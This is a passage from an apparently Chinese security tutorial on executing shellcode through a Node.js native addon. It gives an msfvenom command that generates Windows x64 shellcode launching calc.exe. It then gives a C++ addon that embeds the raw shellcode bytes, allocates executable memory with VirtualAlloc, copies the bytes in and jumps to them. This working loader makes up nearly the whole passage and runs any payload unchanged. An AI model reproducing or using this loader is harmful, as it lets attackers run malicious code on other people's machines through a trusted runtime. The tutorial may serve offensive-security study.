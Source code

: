```
	NODE_MODULE(NODE_GYP_MODULE_NAME, init)
}
```

### 3.执行shellcode

生成shellcode：

```
msfvenom -p windows/x64/exec CMD=calc.exe -f c
```

加载shellcode并执行：

```
#include <node.h>
#include <Windows.h>
namespace demo {
	using v8::FunctionCallbackInfo;
	using v8::Isolate;
	using v8::Local;
	using v8::Object;
	using v8::String;
	using v8::Value;

	void Method(const FunctionCallbackInfo<Value>& args) {
		unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
			"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
			"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
			"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
			"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
			"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
			"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
			"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
			"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
			"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
			"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
			"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
			"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
			"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
			"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f"
			"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff"
			"\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
			"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c"
			"\x63\x2e\x65\x78\x65\x00";
		void *sc = VirtualAlloc(0, sizeof(shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
		memcpy(sc, shellcode, sizeof(shellcode));
		(*(int(*)()) sc)();

	}

	void init(Local<Object> exports) {
		NODE_SET_METHOD(exports, "hello", Method);
	}
	NODE_MODULE(NODE_GYP_MODULE_NAME, init)
}
```
